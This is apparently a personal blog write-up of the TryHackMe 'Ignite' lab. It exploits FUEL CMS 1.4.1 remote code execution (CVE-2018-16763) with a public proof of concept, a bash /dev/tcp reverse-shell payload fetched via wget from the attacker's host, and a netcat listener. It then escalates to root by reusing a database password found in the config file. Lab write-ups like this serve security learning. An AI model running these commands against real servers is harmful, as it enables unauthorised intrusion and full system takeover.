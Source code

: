 ```yaml
---
title: "Try Hack Me - IGNITE Writeup"
date: 2023-09-16T20:54:55+03:00
tags: ["ruby", "writeup","THM", "Linux"]
author: "Peter Lymo"
showToc: true
description: "Try Hack Me - IGNITE Writeup"
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableHLJS: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
thumbnails: "img/ignite-image.png"
images: ["img/ignite-image.png"]
---
```



**Hi, There,**
I got free time to solve a easy box from  try hack me, this box its actually easy one, it consist exploiting a content management system(CMS) so called fuelCMS which was vulnerable with code execution, and rooted with password reuse.

![Alt text](img/ignite-image.png)


## recon
### nmap
found one port,80

```
┌──(kali㉿kali)-[~/thm/ignite]
└─$ sudo nmap -p- --open -sV -A -n -Pn 10.10.138.76
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-16 19:19 EAT
Nmap scan report for 10.10.138.76
Host is up (0.24s latency).
Not shown: 63864 closed tcp ports (reset), 1670 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=9/16%OT=80%CT=1%CU=30543%PV=Y%DS=2%DC=T%G=Y%TM=6505D68
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=107%TI=Z%II=I%TS=A)SEQ(SP=1
OS:06%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   203.97 ms 10.9.0.1
2   245.81 ms 10.10.138.76

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.20 seconds

```
### website
site
`port:80` : found the website here,
![image2](img/image2.png)

tech stack
website run fuelCMS version 1.4.1

## shell as www-data

### Identify Vulnerability

 we target port 80, we search for fuel cms 1.4.1 exploit

![image1](img/image1.png)

found this site [FUEL CMS CVE](https://securityforeveryone.com/tools/fuelcms-1-4-1-remote-code-execution-cve-2018-16763) 

### Vulnerability Details

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter

### exploit

using this poc [POC](https://github.com/noraj/fuelcms-rce) , 
clone the POC,

```
┌──(kali㉿kali)-[~/thm/ignite]
└─$ git clone https://github.com/noraj/fuelcms-rce.git
┌──(kali㉿kali)-[~/thm/ignite]
└─$ cd fuelcms-rce
┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$
```

open another terminal, then create payload and start web server
```   
┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ echo "/bin/bash -i >& /dev/tcp/10.9.113.16/9001 0>&1" > rev.sh

┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ python3 -m http.server 80
```

back on POC terminal,
```

┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ ruby exploit.rb http://10.10.138.76 'wget+http://10.9.113.16/rev.sh'

```

open new terminal and listen reverse shell
```
┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ nc -lnvp 9002
```

back to POC terminal and  then run exploit again

```
┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ ruby exploit.rb http://10.10.138.76 'bash+rev.sh'
```

i got shell as www-data, 

```
┌──(kali㉿kali)-[~/thm/ignite]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.9.113.16] from (UNKNOWN) [10.10.138.76] 33312
bash: cannot set terminal process group (962): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ 
www-data@ubuntu:/var/www/html$ ls /home/     
www-data
www-data@ubuntu:/var/www/html$ ls /home/www-data/
flag.txt
www-data@ubuntu:/var/www/html$ cat /home/www-data/flag.txt 
6470e394cbf6dab6a91682cc858*****
www-data@ubuntu:/var/www/html$ 

```

upgrade shell,

```
www-data@ubuntu:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@ubuntu:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 9001
┌──(kali㉿kali)-[~/thm/ignite]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 9001
                               reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@ubuntu:/var/www/html$ 
```

## shell as root

### enumeration

inside www-data webroot

```
root@ubuntu:/var/www/html# ls -la
total 64
drwxrwxrwx 4 root     root      4096 Sep 16 10:43 .
drwxr-xr-x 3 root     root      4096 Jul 26  2019 ..
drwxrwxrwx 9 root     root      4096 Jul 26  2019 assets
-rwxrwxrwx 1 root     root       193 Jul 26  2019 composer.json
-rwxrwxrwx 1 root     root      6502 Jul 26  2019 contributing.md
drwxrwxrwx 9 root     root      4096 Jul 26  2019 fuel
-rw-r--r-- 1 root     root       163 Jul 26  2019 .htaccess
-rw-r--r-- 1 www-data www-data   361 Sep 16 09:28 index.html
-rwxrwxrwx 1 root     root     11802 Jul 26  2019 index.php
-rw-r--r-- 1 www-data www-data     0 Sep 16 10:08 linpeas.sh
-rwxrwxrwx 1 root     root      1427 Jul 26  2019 README.md
-rw-r--r-- 1 www-data www-data    47 Sep 16 09:26 rev.sh
-rwxrwxrwx 1 root     root        30 Jul 26  2019 robots.txt
-rw-r--r-- 1 www-data www-data     3 Sep 16 09:10 test.txt
root@ubuntu:/var/www/html#
```
there folder fuel, the app folder i will definitely looking for sensitive information like password, a database password
### vulnerability Details

after looking around i found 

`application/config/database.php`
checking inside

```
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

```

crucial information

```
'password' => 'mememe',
```

admin always are lazy and reuse password so why give a try to login as other users,
### exploit

```
www-data@ubuntu:/var/www/html/fuel$ su www-data
Password: 
su: Authentication failure
www-data@ubuntu:/var/www/html/fuel$ su root
Password: 
root@ubuntu:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/var/www/html/fuel# cat /root/root.txt
b9bbcb33e11b80be759c4e844862**** 
root@ubuntu:/var/www/html/fuel#
```

we got root, easy
Happy Hacking !!



